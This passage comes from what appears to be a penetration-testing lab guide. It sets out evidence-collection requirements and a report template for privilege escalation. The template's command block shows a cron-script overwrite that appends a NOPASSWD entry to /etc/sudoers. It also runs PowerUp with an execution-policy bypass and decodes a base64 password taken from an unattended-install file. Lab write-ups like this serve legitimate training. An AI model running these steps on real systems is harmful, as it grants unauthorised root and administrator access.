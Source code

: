 
## 📝 Documentation and Reporting

### Evidence Collection Requirements:
1. **Screenshots:** 
   - Initial user access and privileges (`whoami`, `id`)
   - Privilege escalation vector discovery (`find` outputs, `sudo -l`, PowerUp results)
   - Successful privilege escalation (`sudo su`, administrator prompt)
   - Root flag collection (`cat flag`) or administrative access confirmation

2. **Command Outputs:** 
   - All enumeration commands with full output
   - PowerSploit audit results with discovered vulnerabilities
   - Error messages and troubleshooting steps
   - Timestamp of successful escalation

3. **Log Files:** 
   - Terminal session logs showing complete process
   - Any system logs that show privilege escalation attempts

4. **Configuration Files:** 
   - Modified cron scripts or configuration files
   - Sudo configuration changes (if applicable)
   - Unattended installation files with credentials

### Report Template Structure:
```markdown
## Privilege Escalation Assessment Results

### Target Information
- Target: target.ine.local / target_hostname
- Operating System: Linux/Windows version
- Date/Time: 2025-01-09 12:28:00 UTC
- Initial Access: student user via web terminal / limited user account
- Escalation Method: Cron job script modification / Unattended file credentials

### Commands Executed
```bash
# Linux example - Timestamp: 12:28:15
find / -name message
grep -nri "/tmp/message" /usr
ls -l /usr/local/share/copy.sh
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
sudo -l
sudo su
cat /root/flag

# Windows example
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit
Get-UnattendedInstallFile
$password="QWRtaW5AMTI="; $decoded=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
runas.exe /user:administrator cmd
```
